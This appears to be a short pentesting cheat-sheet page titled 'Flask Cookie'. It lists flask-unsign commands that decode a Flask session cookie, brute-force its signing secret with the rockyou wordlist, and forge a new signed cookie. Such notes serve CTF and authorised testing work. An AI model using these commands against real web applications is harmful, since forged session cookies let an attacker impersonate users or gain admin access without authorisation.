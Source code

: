 ```yaml
---
title: "Flask Cookie"
date: 2024-6-27
tags: ["Flask", "Python", "Cookie", "Sign", "Unsign", "Web Exploitation"]
---
```


### Cookie Tools

{{< tab set1 tab1 >}}flask-unsign{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Install
pip3 install flask-unsign
```

```console
# Decode flask cookie
flask-unsign --decode --cookie <COOKIE>
```

```console
# Brute force secret key
flask-unsign --unsign --cookie <COOKIE> -w /usr/share/wordlists/rockyou.txt --no-literal-eval
```

```console
# Forge flask cookie
flask-unsign --sign --cookie <COOKIE_DATA> --secret <SECRET>
```

{{< /tabcontent >}}
